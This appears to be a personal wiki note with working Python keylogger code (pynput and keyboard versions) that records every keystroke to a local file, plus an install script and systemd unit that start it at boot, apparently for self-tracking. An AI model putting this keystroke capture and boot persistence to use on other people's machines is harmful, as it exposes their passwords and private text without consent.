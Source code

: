 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
title: Keylogger Binding
---
```

``` python    
#!/bin/python3
from pynput import keyboard
import logging
import os
import socket

# log_dir = os.environ['quantized_self_dir']
log_dir = "/home/paul/Documents/Software/keylogger"
os.makedirs(log_dir)
logging.basicConfig(filename = log_dir + "/{}keyLog.txt".format(str(socket.gethostname())), 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
```

## Previous Tries

``` python

# keylogger.py
import keyboard # for keylogs
from datetime import datetime

# https://www.thepythoncode.com/article/write-a-keylogger-python
# https://github.com/boppreh/keyboard#keyboard.hook

class Keylogger:
    def callback_pressed(self, event):
        # print(event.name)
        # print(event.event_type)
        with open(f"./test-keylog.txt", "a") as f:
            event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
            print(event_string, file=f)
    def start(self):
        keyboard.hook(callback=self.callback_pressed)
        keyboard.wait()
if __name__ == "__main__":
    keylogger = Keylogger()
    keylogger.start()
```

## install.sh

``` bash
#!/bin/bash
sudo cp keylogger.service /etc/systemd/system/keylogger.service
sudo systemctl enable keylogger.service
sudo systemctl start keylogger.service
```

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
After=multi-user.target

[Service]
ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out

[Install]
WantedBy=multi-user.target
```

## Links

* [wiki.software.Catagories.Keylogger](/undefined)

## Sources

* [https://www.tutorialspoint.com/design-a-keylogger-in-python](https://www.tutorialspoint.com/design-a-keylogger-in-python) [https://realpython.com/python-logging/](https://realpython.com/python-logging/)